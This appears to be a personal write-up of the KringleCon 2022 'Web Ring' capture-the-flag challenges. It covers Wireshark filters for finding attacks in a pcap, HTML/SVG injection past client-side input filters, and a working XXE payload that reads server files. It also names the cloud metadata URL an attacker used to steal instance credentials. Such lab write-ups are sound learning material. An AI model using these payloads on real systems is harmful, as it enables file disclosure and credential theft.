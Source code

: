 ```yaml
---
layout: kringlecon2022
title: "Web Ring"
author: "Andrew Cherney"
date: 2023-01-15 19:52:13
tags: 
- kringlecon 
- html 
- xxe
---
```

## 404 FTW
***
___
The next attack is forced browsing where the naughty one is guessing URLs. What's the first successful URL path in this attack?  

***

There is likely an easy way to filter for this but you are looking for `404 NOT FOUND` http responses from the server, or `[PSH,ACK]` TCP responses from the server

`(http.response.code == 200 && ip.dst == 18.222.86.32 ) || ip.src == 18.222.86.32 && http`
this filters to 200 response codes and http requests from the host in question, scroll till you see a response after a get request


Answer: `/proc`

___




## Boria Mine 
***
___
Open the door to the Boria Mines. Help Alabaster Snowball in the Web Ring to get some hints for this challenge.

***

Connecting color sensors with proper characters
Spaces denote the next line
So in order to complete this challenge I need to color pick the color sensors and match their color with `<font color = >`

blue: 0200ff  
red: ff0001  
green: 01ff02  

1: ─────────────  
No filters

2: ───────────── ██──────────┐ ───────────┐├ ────────────├  
No filters

3: `<font color="#0200ff">███████████┼█ ███████████┼█ ███████████┼█ ██████┼████┼█ ██████┼████┼█</font>`  
Does not allow custom styles

4: `<style>div {background-color: blue;transition: background-color 5s;}</style><font color="#01ff02">█████████████</font> <font color="#ff0001">███████████┼█ ███████████┼█</font>`  
Does not allow custom styles

5: 
Does not allow custom styles, and filters out <> 

6: 
Does not allow custom styles, and filters out <> 


```<style>test {background-color: blue;transition: background-color 5s;}</style>```

```<test><font color="#01ff02">█████████████</font> <font color="#ff0001">███████████┼█ ███████████┼█</font></test>```

The above produces the following:

<style>
test {
    background-color: red;
    transition: background-color 5s;
}
</style>

<test><font color="#0200ff">███████████┼█ ███████████┼█ ███████████┼█ ██████┼████┼█ ██████┼████┼█</font></test>
<br>

svg makes this so much easier

1: `<svg width=250" height="250"><rect width="1000" height="1000" style="fill:rgb(255,255,255);stroke-width:10;stroke:rgb(255,255,255)" /></svg>`

2: `<svg width=250" height="250"><rect width="1000" height="1000" style="fill:rgb(255,255,255);stroke-width:10;stroke:rgb(255,255,255)" /></svg>`

3: `<svg width=1000" height="1000"><rect width="1000" height="1000" stroke="blue" fill="blue" /></svg>`

4: `<svg width=1000" height="1000"><rect width="1000" height="1000" stroke="blue" fill="blue" /><rect width="1000" height="50" fill="#01ff02"" /><rect x="0" y="50" width="1000" height="50" fill="#ff0001"" /><rect x="150" y="80" width="1000" height="50" fill="#ff0001"" /></svg>`

5: `<svg width=1000" height="1000"><rect width="1000" height="1000" stroke="blue" fill="blue" /><rect x="0" y="0" width="1000" height="50" fill="#ff0001"" /><rect x="0" y="50" width="10" height="1000" fill="#ff0001"" /></svg>`
`%3Csvg%20width=1000%22%20height=%221000%22%3E%0A%20%20%3Crect%20width=%221000%22%20height=%221000%22%20stroke=%22blue%22%20fill=%22blue%22%20/%3E%0A%20%20%3Crect%20x=%220%22%20y=%220%22%20width=%221000%22%20height=%2250%22%20fill=%22#ff0001%22%22%20/%3E%0A%20%20%3Crect%20x=%220%22%20y=%2250%22%20width=%2210%22%20height=%221000%22%20fill=%22#ff0001%22%22%20/%3E%0A%3C/svg%3E`

this pin is sanitizing inputs to remove `'"<>` but it sanitized user side which means i can change the `inputTxt=` data in the packet

6: `<svg width=1000" height="1000"><rect width="1000" height="1000" stroke="blue" fill="blue" /><rect x="0" y="0" width="1000" height="50" fill="#FFF"" /></svg>`
`%3Csvg%20width=1000%22%20height=%221000%22%3E%0A%20%20%3Crect%20width=%221000%22%20height=%221000%22%20stroke=%22blue%22%20fill=%22blue%22%20/%3E%0A%20%20%3Crect%20x=%220%22%20y=%220%22%20width=%221000%22%20height=%2250%22%20fill=%22#FFF%22%22%20/%3E%0A%3C/svg%3E`

same thing for this pin

___




## Credential Mining
***
___
The first attack is a brute force login. What's the first username tried?

***
search for the first login from the IP address for the first question


```ip.src == 18.222.86.32 && http.request.method == "POST"```


```18.222.86.32 - - [05/Oct/2022 16:46:12] "GET /login.html HTTP/1.1" 200 -
```

Look for first login POST and follow the tcp stream to see username and password

Answer: alice

___



## Glamtariel's Fountain
***
___
Stare into Glamtariel's fountain and see if you can find the ring! What is the filename of the ring she presents you? Talk to Hal Tandybuck in the Web Ring for hints.

***

Focus on capitalized word?
tamper path traffic flies type app

trying XXE injection in path gets a specific response

"I keep a list of all my rings using a simple format"
Then mentions a ring list

\<?xml version="1.0" encoding="UTF-8" ?>
\<!DOCTYPE replace[\<!ENTITY xxe SYSTEM "file:///app/static/images/ringlist.txt" >]>
\<root>
  \<imgDrop>&xxe;\</imgDrop>
  \<who>princess\</who>
  \<reqType>xml\</reqType>
\</root>


took some brute forcing but i found it
gives an image
bluering.txt
redring.txt
x_phial_pholder_2022

use xxe some more
file:///app/static/images/x_phial_pholder_2022/silverring.txt

a new visit png redring-supersupersecret928164.png

goldring_to_be_deleted.txt

she responds with 'bold REQ' which seems pointed

probably changing the \<reqtype> data

what it wanted us to do was put the payload there

Note: putting payload in who will yield a funny message

___




## IMDS, XXE, and Other Abbreviations
***
___
The last step in this attack was to use XXE to get secret keys from the IMDS service. What URL did the attacker force the server to fetch?

***
search by XML
find the last XML request


Answer: `http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance`

___




## Naughty IP
***
___
Use the artifacts from Alabaster Snowball to analyze this attack on the Boria mines. Most of the traffic to this site is nice, but one IP address is being naughty! Which is it? Visit Sparkle Redberry in the Tolkien Ring for hints.

***
Look for the IP address that is attempting to login over and over (hinted at by next question)

Answer: 18.222.86.32

___











